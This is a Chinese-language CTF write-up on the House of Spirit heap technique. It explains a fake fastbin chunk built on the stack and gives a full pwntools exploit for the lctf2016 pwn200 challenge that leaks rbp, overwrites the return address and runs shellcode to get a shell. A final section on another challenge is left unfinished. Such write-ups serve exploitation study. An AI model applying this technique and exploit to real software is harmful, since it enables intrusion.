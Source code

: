 ```yaml
---
title: PWN_House_of_Spirit
date: 2022-07-19 22:03:43
tags: ['CTF', 'Pwn', ]
authors: [nova]
categories: ['CTF']

---
```


看看`House_of_spirit`，这是一种依靠在栈上构造`fake_chunk`从而实现`(almost) arbitrary write`的技术。依赖`fastbin`

<!--truncate-->

# how2heap

整体还是比较简单的，需要注意的就是需要`16字节对齐`，且需要构造`next_fake_chunk`的`chunk_size`以绕过检查

![image-20220719220643524](https://cdn.novanoir.moe/img/image-20220719220643524.png)

![image-20220719220923354](https://cdn.novanoir.moe/img/image-20220719220923354.png)

# 实战

## lctf2016_pwn200

![checksec](https://cdn.novanoir.moe/img/image-20220719235857110.png)

保护啥也没开，想着就是直接`ret2shellcode`梭哈，但是没有那么多字节给我们栈溢出。

![400A8E](https://cdn.novanoir.moe/img/image-20220719235308594.png)

第一个`who are u?`的函数存在`Off-by-One`的漏洞，可以泄露出`400A8E`的`rbp`指向的内容（也就是父函数的`rbp`）

```python
def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')

rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
```

![RBP](https://cdn.novanoir.moe/img/image-20220719235609346.png)

函数`read_input()`返回了一个`int`，虽然`400A8E`没有使用，他也应该会存到栈上的某个位置，根据汇编得到其位于`[rbp-0x38]`的位置

![[rbp-0x38]](https://cdn.novanoir.moe/img/image-20220720000140408.png)

在`400A29`中，可以看出`dest`是指针，`buf`存在`8`字节的溢出，正好可以覆盖`dest`，而`dest`会存到`ptr`中，供之后的`menu`里的功能来`free`和`malloc`等。

![400A29](https://cdn.novanoir.moe/img/image-20220720000329530.png)

到此，我们可以初步猜想，可以在`buf`这里构造一个`fake_chunk`，然后把堆指针指向`buf`，这样我们就有了一个在栈上的`chunk`。问题是在`check_out`函数中，想要`free(ptr)`，我们必须依靠`House_of_spirit`伪造`fake_next_chunk_size`

根据计算，我们可以发现刚才的`id`正位于目前我们`buf+0x68`的位置，因此我们不妨造一个`0x50`大小的`chunk`，并把`id`设置成一个满足`house_of_spirit`的值。

![fake_next_chunk_size](https://cdn.novanoir.moe/img/image-20220720001354338.png)

如此一来，当我们执行`free(ptr)`时，便会将这个栈上的地址存到`fastbin`中，此时我们重新`malloc(0x60)`，并写入对应的`payload`更改返回地址，便可以拿到`shell`了

通过观察，我们可以发现唯一可以控制的`ret_addr`是`ptr+0x40`的这个。返回地址可控了，丢到哪里呢？还记得我们一开始`who_r_u`的时候输入了`0x30`的数据么？我们完全可以把`shellcode`写到这里。只要计算一下偏移就可以了。

![image-20220720002739429](https://cdn.novanoir.moe/img/image-20220720002739429.png)

完整EXP:

```python
from pwn import *
context(os='linux', arch='amd64', log_level='DEBUG')

sh = process(['./pwn200'])


def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')


def give_id(content: bytes):
    sh.sendafter(b'give me your id ~~?', content)


def give_money(content: bytes):
    sh.sendafter(b'give me money~', content)


def menu(index: int):
    sh.recvuntil(b"your choice : ")
    if index == 1:
        sh.sendline(b"1")
    elif index == 2:
        sh.sendline(b"2")
        sh.recvuntil(b"out~")
    elif index == 3:
        sh.sendline(b"3")
        sh.recvuntil(b'good bye~')


def check_in(length_: bytes, content: bytes):
    sh.sendlineafter(b'how long?', length_)
    sh.sendlineafter(length_ + b'\n', content)
    sh.recvuntil(b"in~")


def gdb_(time_: int = None, arg: str = None):
    gdb.attach(sh, arg)
    pause(time_)


rbp = u64(who_are_you(asm(shellcraft.sh()).ljust(0x30, b'\x00')))
# rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
give_id(b'2333')  # next_fake_chunk_size
payload = p64(0) + p64(0x60) + b'\x00'*(0x40-0x10-0x08) + p64(rbp-0xb0)
give_money(payload)

menu(2)
ret_addr = rbp - 0x50
payload = b'\x00'*0x38 + p64(ret_addr) + b'\x00'*0x0F
menu(1)
check_in(b'80', payload)
menu(3)
sh.interactive()

```

# 2014_hack.lu_oreo

哈哈哥们出了个整不明白的bug（`pwntools`接不到`Action`），后面再说吧，乐

![image-20220720204517147](https://cdn.novanoir.moe/img/image-20220720204517147.png)
